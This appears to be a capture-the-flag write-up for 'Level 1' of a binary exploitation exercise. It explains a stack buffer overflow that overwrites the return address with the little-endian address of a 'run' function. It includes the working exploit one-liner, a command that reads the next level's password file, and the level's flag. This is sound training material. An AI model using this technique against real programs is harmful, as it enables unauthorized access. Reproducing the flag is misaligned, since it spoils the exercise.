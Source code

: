 # Level 1

We need to overflow input and then execute the 'run'
function. To get the 'run' function's address, we use `objdump -d level1`. The address must be converted to little endian because the machine's registers are in little endian.

```bash
python -c 'print "n" * 76 + "\x44\x84\x04\x08"' > /tmp/level1
cat /tmp/level1 - | ./level1
cat /home/user/level2/.pass
```

**Flag:** `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`
